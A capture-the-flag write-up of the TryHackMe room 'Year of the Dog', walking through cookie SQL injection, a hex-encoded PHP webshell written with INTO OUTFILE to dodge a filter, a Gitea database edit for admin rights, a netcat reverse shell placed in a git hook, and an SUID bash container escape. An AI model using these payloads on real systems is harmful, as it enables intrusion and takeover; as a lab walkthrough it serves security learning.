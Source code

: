 ```yaml
---
layout: post
title: CTF Log - Year of the Dog (THM)
description: A log of how I did the TryHackMe room Year of the Dog by Muirland Oracle
summary: A log of the THM room "Year of the Dog"
tags: ctf log
minute: 5
---
```

<br/>

> {{ page.description }}

<br/>

# Year of the Dog
## Request Header SQLi
A portscan reveals the only ports: 22, 80. 

The web server seems to have practically no content. The only thing I fuzzed that returned an interesting result was the `id` cookie parameter. Adding a `'` to it causes the website to error out, so it seems like some sort of injection is afoot.

The payload `' union select 1, @@version#` confirms that the cookie `id` parameter is vulnerable to SQL injection. 

I'm able to get a webshell on the server using `' into outfile '/var/www/html/wshell.php' fields terminated by 0x3c3f70687020706173737468727528245f4745545b2263225d293b203f3e#`

A breakdown of that payload:

- `into outfile` - MySQL syntax to place the selected object into a file
- `fields terminated by` - Allows you to choose what data to append to each field in the new file
- `3c3f70687020706173737468727528245f4745545b2263225d293b203f3e` a hex encoded PHP webshell: `<?php passthru($_GET["c"]); ?>`. The `0x` tells MySQL that the following data is hex and should be treated as such. This was done to bypass a web filter that flagged the characters `<>` as malicious.

Using that webshell, I'm able to execute a reverse shell and get a session on the machine as the user `www-data`. 

## Readable Authentication Log
To escalate to the user `dylan`, I found a file named `work_analysis` in that user's home directory. 

The file seemed to be a copy of a locally hosted web application's authentication logs. I grepped for `dylan` in that file and found an entry where the user had accidentally typed their password in the username field. 

Using this password, I'm able to get an SSH session as `dylan`. 

## Database Overwrite & Malicious Git Hook
A check on the active ports showed a Gitea server being served on `127.0.0.1:3000`. I used SSH with the port-forwarding parameter `-L 8090:127.0.0.1:3000` to send connections against my local machine's port `8090` to the address `127.0.0.1:3000` through the SSH connection. 

With this, I'm able to browse the Gitea website. I create a user `test`. 

I use `scp` as `dylan` to download the `Gitea.db` database file. Using `sqlite` I'm able to view the database and make edits to it. I find the user table and notice the `is_admin` parameter and edit that column to make my user an admin.

```
sqlite> select email, is_admin from user;
dylan@yearofthedog.thm|1
test@gmail.com|0

sqlite> update user set is_admin = 1 where email = 'test@gmail.com';
```

Refreshing the page now shows that my user `test` is an admin. 

With admin privileges I'm now able to use the githooks functionality. I create a repo and append this reverse shell code: `mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f` to one of the template scripts in the repo's githooks section. 

It took some trial and error to arrive at that reverse shell. The version of that shell available on PentestMonkey didn't function. Fortunately, a verbose stack trace was displayed in the terminal when the script failed, allowing me to refine the one-liner. 

![[error.png]]

I also did some online research on different types of bash/sh reverse shells.

## Abusing Container Privileges
Naturally, the reverse shell from the githook places me in a container. 

I'm easily able to get root access since `sudo` is available for all commands; I just `sudo -s`. 

Reading through the Gitea documentation and the `app.ini` file for the web server, the `/data` directory within the container maps to a directory on the host machine. 

I navigate to `/bin` with my session as `dylan` and use `python3 -m http.server` to host a web server on port `8000`. 

Within the container, I use `ip a` to see that the container is communicating through the virtual IP of `172.17.0.2`. The gateway address in this subnet would naturally route to the host machine, so I do `wget 172.17.0.1:8000/bash -O /data/bash` to download a copy of the bash binary. 

With `chmod +sx /data/bash` I make the binary executable by anyone and give it the SUID bit. Since I've downloaded it as `root` within the container, the SUID bit will make the binary run as `root`. 

With my session as `dylan` I do `./bash -p` to get a shell as `root`. Here is an explanation of what `-p` is for, taken from the bash man pages:

```
If the shell is started with the effective user (group) id not equal to the real user (group) id, and the **-p**option is not supplied, no startup files are read, shell functions are not inherited from the environment, the **SHELLOPTS**, **BASHOPTS**, **CDPATH**, and **GLOBIGNORE** variables, if they appear in the environment, are ignored, and the effective user id is set to the real user id. If the **-p** option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.
```
